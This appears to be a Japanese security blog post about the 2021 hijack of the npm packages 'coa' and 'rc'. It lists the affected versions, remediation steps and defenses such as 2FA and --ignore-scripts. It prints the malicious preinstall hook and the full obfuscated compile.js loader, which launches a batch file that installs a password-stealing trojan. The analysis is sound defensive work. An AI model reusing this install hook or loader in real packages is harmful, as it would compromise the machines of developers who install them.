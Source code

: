 ```yaml
---
id: 4h4ejctfMpzeQYcn4uhrR0
title: " npm の人気パッケージ 「coa」と「rc」にマルウェアが埋め込まれた"
slug: "npm-coa-rc-embded-malware"
about: "2021/11/5 npm パッケージ 「coa」と「rc」がハイジャックされ、パスワードを盗むマルウェアが埋め込まれました。現在の時点では問題のあったバージョンはすべて取り除かれています。"
createdAt: "2021-11-07T00:00+09:00"
updatedAt: "2021-11-07T00:00+09:00"
tags: ["JavaScript", "セキュリティ"]
published: true
---
```

2021/11/5 npm パッケージ 「coa」と「rc」がハイジャックされ、パスワードを盗むマルウェアが埋め込まれました。現在の時点では問題のあったバージョンはすべて取り除かれています。

- [coa](https://github.com/veged/coa/issues/99) はコマンドライン引数のパーサーで、週に880万ダウンロードされています。有名なライブラリですと [React](https://github.com/facebook/react/blob/main/yarn.lock#L4748) がや [@vue/cli-service](https://github.com/vuejs/vue-cli/blob/dev/yarn.lock#L7286) がこのパッケージに依存しています。
- [rc](https://github.com/veged/coa/issues/99) は 設定のローダーで、週に130万ダウンロードされています。

## 影響を受けたバージョン

### coa

- 2.0.3
- 2.0.4
- 2.1.1
- 2.1.3
- 3.0.1
- 3.1.3

### rc

- 1.2.9
- 1.3.9
- 2.3.9

## なにをすべきですか？

npm を利用しているレポジトリにおいて「coa」または「rc」の上記に該当するバージョンが存在するか `package.lock.json` または `yarn.lock` ファイルを確認します。

もしこれらのバージョンが含まれていた場合あなたのマシンに以下のファイルが含まれていないかどうか確認し、削除する必要があります。また、あなたのパスワードの情報はすでに盗まれている可能性があるので速やかに変更をすべきです。

- compile.js
- compile.bat
- sdd.dll

## マルウェアの内容

埋め込まれたマルウェアは「coa」と「rc」どちらも同じ内容で、どちらも `preinstall` を利用した攻撃となっています。

`preinstall` は `npm-script` に定義できる [Life Cycle Scripts](https://docs.npmjs.com/cli/v7/using-npm/scripts#life-cycle-scripts) と呼ばれる特殊なスクリプトであり `npm install` が実行される直前に実行されます。

```js
"preinstall": "start /B node compile.js & node compile.js"
```

影響を受けたバージョンには `compile.js` と `compile.bat` という名前のファイルが含まれており `npm install` を実行することで `compile.js` が実行されてしまいます。

- compile.js

```js
const _0x29286e=_0x3b9e;(function(_0x595213,_0x1c7f12){const _0x524030=_0x3b9e,_0x10bbc4=_0x595213();while(!![]){try{const _0x5ab451=parseInt(_0x524030(0xef))/0x1*(-parseInt(_0x524030(0xfa))/0x2)+parseInt(_0x524030(0xf7))/0x3+-parseInt(_0x524030(0xf6))/0x4*(parseInt(_0x524030(0xf5))/0x5)+-parseInt(_0x524030(0xf2))/0x6*(-parseInt(_0x524030(0xed))/0x7)+-parseInt(_0x524030(0xf8))/0x8*(parseInt(_0x524030(0xe9))/0x9)+parseInt(_0x524030(0xeb))/0xa+parseInt(_0x524030(0xf3))/0xb*(parseInt(_0x524030(0xf4))/0xc);if(_0x5ab451===_0x1c7f12)break;else _0x10bbc4['push'](_0x10bbc4['shift']());}catch(_0x3b1efb){_0x10bbc4['push'](_0x10bbc4['shift']());}}}(_0x4f67,0x3d733));const {exec}=require('child_process');function _0x4f67(){const _0x5d7817=['28bejTPQ','1355673ZDaxId','779896MgsJdu','child_process','26358GzOkXk','MacOS','platform','cmd.exe','win64','27EVEPMY','win32','768760SJubeg','Linux','111587KPhwpG','compile.bat','11xGbwXc','linux','darwin','36HiOlse','11PTXHjR','3696096qOooYF','173780mPHnxy'];_0x4f67=function(){return _0x5d7817;};return _0x4f67();}var opsys=process[_0x29286e(0xfc)];function _0x3b9e(_0x21f5ee,_0x411966){const _0x4f6708=_0x4f67();return _0x3b9e=function(_0x3b9ecb,_0x3ac81f){_0x3b9ecb=_0x3b9ecb-0xe9;let _0x5a6794=_0x4f6708[_0x3b9ecb];return _0x5a6794;},_0x3b9e(_0x21f5ee,_0x411966);}if(opsys==_0x29286e(0xf1))opsys=_0x29286e(0xfb);else{if(opsys==_0x29286e(0xea)||opsys==_0x29286e(0xfe)){opsys='Windows';const {spawn}=require(_0x29286e(0xf9)),bat=spawn(_0x29286e(0xfd),['/c',_0x29286e(0xee)]);}else opsys==_0x29286e(0xf0)&&(opsys=_0x29286e(0xec));}
```

`compile.js` が実行されることで `compile.bat` というバッチファイルが実行されます。このバッチが実行されると `sdd.dll` がインストールされ起動されます。このマルウェアは、Windows用のパスワード盗用トロイの木馬であるDanabotである可能性が高いです。

Danabotが読み込まれると、以下のような様々な悪意ある活動を行います。

- Chrome、Firefox、Opera、Internet Explorer、Safariなどの様々なウェブブラウザからパスワードを盗む。
- VNC、FTPクライアント、メールアカウントなど、様々なアプリケーションからパスワードを盗む。
保存されているクレジットカードを盗む。
- アクティブな画面のスクリーンショットを撮る。
- キーストロークを記録する。

## npm のセキュリティに対する対策

### 2FA の有効化

マルウェアが埋め込まれた現在として npm のパッケージを公開する権限がある人のアカウントが乗っ取られたことが要因として上げられています。npm としては同様の攻撃を防ぐため**2FAを有効にする**ことが強く推奨されています。

https://twitter.com/npmjs/status/1456310653681999876

### pre-install を無効化する

マルウェアの実行の多くは `pre-install` スクリプトによって行われています。パッケージをインストールする際に `--ignore-scripts` オプションを付与することでスクリプトの実行をオプトアウトできます。

```
npm install --ignore-scripts
yarn add --ignore-scripts
```

## 参考

- https://therecord.media/malware-found-in-coa-and-rc-two-npm-packages-with-23m-weekly-downloads/
- https://www.bleepingcomputer.com/news/security/popular-coa-npm-library-hijacked-to-steal-user-passwords/
- https://github.com/advisories/GHSA-g2q5-5433-rhrf
- https://github.com/advisories/GHSA-73qr-pfmq-6rp8

